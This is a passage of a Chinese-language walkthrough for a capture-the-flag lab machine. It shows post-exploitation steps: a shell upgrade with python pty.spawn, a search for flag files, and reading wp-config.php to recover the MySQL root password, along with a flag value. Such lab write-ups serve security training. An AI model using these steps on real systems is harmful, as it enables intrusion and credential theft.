 ![image-20220301170726702](https://gitee.com/xxb667/img/raw/master/img/image-20220301170726702.png)

内核版本

```
Linux MiWiFi-R3A-srv 3.16.0-6-amd64 #1 SMP Debian 3.16.57-2 (2018-07-14) x86_64
```

![1610634874_6000567ab717ff07e0aed.png!small?1610634874533](https://gitee.com/xxb667/img/raw/master/img/1610634874_6000567ab717ff07e0aed.png!small)

输入下面命令

```
shell
```

之后直接输入Linux命令即可

![image-20220301190701047](https://gitee.com/xxb667/img/raw/master/img/image-20220301190701047.png)

在/var/www/目录找到flag2.txt

```
flag2{6a8ed560f0b5358ecf844108048eb337}
```

使用find查找flag文件

```
 find ./ -name "flag*"
```

![image-20220301200327439](https://gitee.com/xxb667/img/raw/master/img/image-20220301200327439.png)

### 切换终端

使用python获得完整性shell

```
python -c 'import pty; pty.spawn("/bin/bash")'
```

![image-20220301190836418](https://gitee.com/xxb667/img/raw/master/img/image-20220301190836418.png)

### 获得MySQL账号密码

没有在网上找到可以利用的内核提权脚本，这里继续进行信息搜集

在/var/www/html/wordpress/wp-config.php中发现mysql数据库密码

```
账户：root
密码：R@v3nSecurity
```

![image-20220301171701565](https://gitee.com/xxb667/img/raw/master/img/image-20220301171701565.png)

```
cat wp-config.php
```
